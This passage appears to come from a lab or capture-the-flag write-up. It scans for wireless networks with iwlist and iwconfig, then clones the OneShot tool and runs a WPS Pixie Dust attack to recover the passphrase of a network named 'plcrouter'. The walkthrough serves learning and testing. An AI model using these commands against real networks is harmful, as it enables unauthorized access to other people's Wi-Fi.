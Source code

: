 ```bash
sudo iwlist wlan0 scan

```

![image14](../resources/e81fa7acd0e0446b9b5a66b7ab603ac8.png)

```bash
iwconfig

```

![image15](../resources/562670a54c3f4e40bc338ced502f3643.png)

- From the outputs above, we can see that we have a wireless adapter **wlan0** and there is a wireless network called **plcrouter**. But we aren't connected to it

- First we need to find the passphrase for the network

- We can see if we can do a WPS Pixie Dust Attack:
  
```bash
git clone https://github.com/kimocoder/OneShot/tree/master

sudo python3 oneshot.py -i wlan0 -K

```
